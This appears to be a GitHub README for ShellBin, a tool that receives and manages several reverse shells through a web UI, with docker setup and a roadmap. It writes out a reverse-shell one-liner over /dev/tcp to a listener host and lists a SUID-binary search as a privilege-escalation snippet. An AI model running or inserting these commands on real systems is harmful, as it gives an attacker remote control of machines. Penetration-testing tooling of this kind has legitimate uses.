# ShellBin

[中文文档](README_zh.md)

Elegantly receive reverse shell.

Receive multiple reverse shells on one port, and manage them in a web UI.

With the usage of [xterm.js](https://xtermjs.org/), complex commands like vi, tmux and Ctrl-C works ( you may need to gain pty, and set correct stty size. )

![screenshot](images/screenshot.png)

## Running

Recommended to use the [docker image from dockerhub](https://hub.docker.com/repository/docker/cwithw/shellbin).

```bash
docker run -d --name shellbin -p 9998:3000 -p 9999:3001 -e USERNAME=root -e PASSWORD=toor cwithw/shellbin:latest
```

Change the value of `USERNAME` and `PASSWORD` to your own username and password. 
You may also change `9998`(web UI port) and `9999`(reverse shell port) to your own port.

then visit `http://your-ip:9998` to see the web UI.

receive reverse shells on port 9999 (`bash -i >& /dev/tcp/your-ip/9999 0>&1`).

## development

```
make backend-environment
make frontend-environment
```

## build docker

```
make docker
```
```
make build-docker-image
```

## security & performance

This app is in prototype stage, it is generally secure, but not performant optimized, and the UI is not pretty,

pull requests are welcome.

## Roadmap

- [x] web UI with list of connected shells and using [xterm.js](https://xtermjs.org/) to display colored shell
- [x] authentication required for web UI
- [x] receive reverse shell
- [x] automatically remove dead connections
- [ ] fancy web UI
- [ ] resize terminal and send terminal event (currently you need to do `stty` command)
- [ ] snippets ( eg. `find / -perm 4000 2>/dev/null` )
- [ ] API for reverse shell
